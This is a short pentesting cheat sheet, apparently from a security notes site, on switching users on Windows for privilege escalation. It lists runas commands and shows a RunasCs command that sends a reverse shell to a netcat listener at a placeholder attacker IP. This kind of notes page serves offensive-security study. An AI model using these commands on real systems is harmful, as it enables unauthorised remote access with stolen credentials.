 ```yaml
---
title: Switch User on Windows
description: 
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2024-04-01
draft: false
---
```


## Runas

```bash
runas /user:<username> cmd
runas /user:<domain>\<username> cmd
```

<br />

## RunasCS

We can spawn another shell as another user with [RunasCS](https://github.com/antonioCoco/RunasCs).  
First, start a listener on local machine.

```bash
nc -lvnp 4444
```

Then execute the following command on target machine.  
Replace `10.0.0.1:4444` with your local IP and port.

```powershell
RunasCs.exe <username> <password> cmd -r 10.0.0.1:4444
```
